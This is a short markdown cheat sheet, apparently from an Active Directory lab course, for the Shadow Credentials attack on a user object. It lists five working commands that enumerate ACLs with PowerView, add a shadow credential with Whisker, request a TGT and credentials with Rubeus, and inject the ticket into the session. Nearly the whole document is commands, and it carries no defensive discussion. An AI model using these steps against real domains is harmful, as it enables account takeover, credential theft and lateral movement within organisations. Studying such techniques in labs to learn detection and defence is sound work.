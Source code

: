 # Shadow Credentials
## Abusing User Object
### 1. Enumerate the permissions
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```

### 2. Add the Shadow Credential
```powershell
Whisker.exe add /target:supportXuser
```

### 3. Using PowerView, see if the Shadow Credential is added.
```powershell
Get-DomainUser -Identity supportXuser
```

### 4. Request the TGT by leveraging the certificate
```powershell
Rubeus.exe asktgt /user:supportXuser /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW.... /password:"1OT0qAom3..." /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /getcredentials /show /nowrap
```

### 5. Inject the TGT in the current session or use the NTLM hash
```powershell
Rubeus.exe ptt /ticket:doIGgDCCBnygAwIBBaEDAgEW...
```
